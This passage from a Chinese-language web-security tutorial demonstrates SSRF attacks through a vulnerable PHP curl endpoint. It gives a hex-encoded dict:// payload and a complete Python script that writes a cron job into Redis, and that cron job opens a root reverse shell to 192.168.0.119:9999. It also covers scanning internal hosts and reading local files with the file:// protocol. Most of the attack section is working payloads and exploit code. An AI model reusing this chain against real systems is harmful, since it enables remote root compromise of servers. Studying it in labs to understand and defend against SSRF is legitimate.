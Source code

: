 ```
1584705879.520734 [0 172.17.0.1:44488] "set" "mars" "\\n\\n*" "*" "*" "*" "*" "root" "bash" "-i" ">&" "/dev/tcp/192.168.0.119/6789" "0>&1\\n\\n"
```
根据上图我们会发现，命令被分割了，看表象感觉像是被空格分割了。此时将反弹shell的命令进行十六进制转换，变为：
```bash
curl dict://192.168.0.119:6379/set:mars:\"\\x0a\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x72\\x6f\\x6f\\x74\\x20\\x62\\x61\\x73\\x68\\x20\\x2d\\x69\\x20\\x3e\\x26\\x20\\x2f\\x64\\x65\\x76\\x2f\\x74\\x63\\x70\\x2f\\x31\\x39\\x32\\x2e\\x31\\x36\\x38\\x2e\\x30\\x2e\\x31\\x31\\x39\\x2f\\x39\\x39\\x39\\x39\\x20\\x30\\x3e\\x26\\x31\\x0a\"
```
以上单引号使用反斜杠\进行转移，其他数据进行十六进制编码，执行结果如下，可以发现没有错误了
```
1584706087.980465 [0 172.17.0.1:44490] "set" "mars" "\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n"
```
剩下的修改路径和文件名称的请求，正常执行即可，脚本如下：
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib,binascii
url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
target = "dict://192.168.0.119:6379/"
cmds = ['set:mars:\\\\"\\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\\n\\\\"',
       "config:set:dir:/etc/",
       "config:set:dbfilename:crontab",
       "bgsave"]

for cmd in cmds:
    cmd_encoder = ""
    for single_char in cmd:
        # 先转为ASCII
        cmd_encoder += hex(ord(single_char)).replace("0x","")
    cmd_encoder = binascii.a2b_hex(cmd_encoder)
    cmd_encoder = urllib.quote(cmd_encoder,'utf-8')

    payload = url + target + cmd_encoder
    print payload
    request = urllib2.Request(payload)
    response = urllib2.urlopen(request).read()
```
但很多时候我们利用ssrf漏洞去攻击内网服务器的时候，并不知道内网中有什么样的应用、IP地址是多少、开放了什么端口、端口对应的服务是什么。所以需要先对内网做IP+端口的扫描，如果开放的服务是redis才能使用上文讲到的利用方法，对于不同的应用有不同的扫描方法，例如，redis的扫描可以请求以下内容来根据回显内容进行判断是否为redis，其他的服务也是同样道理，只要知道服务的指纹，然后与自己的指纹库进行比对即可：
```bash
curl dict://192.168.0.119:6379/
```
### 0x02 file协议
file协议主要用于访问本地计算机中的文件，命令格式为：
```
file://文件路径
```
使用file协议可以直接读取目标操作系统的文件，例如使用以下方法来读取<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624869371771-7e72f093-a07b-4640-aab1-a63680e8883c.png#align=left&display=inline&height=194&margin=%5Bobject%20Object%5D&name=image.png&originHeight=194&originWidth=1850&size=269518&status=done&style=none&width=1850)<br />file协议和http协议有什么区别呢？

- file协议主要用于读取服务器本地文件，访问的是本地的静态资源
- http是访问本地的html文件，相当于把本机当作http服务器，通过http访问服务器，服务器再去访问本地资源。简单来说file只能静态读取，http可以动态解析
- http服务器可以开放端口，让他人通过http访问服务器资源，但file不可以
- file对应的类似http的协议是ftp协议（文件传输协议）
- file不能跨域
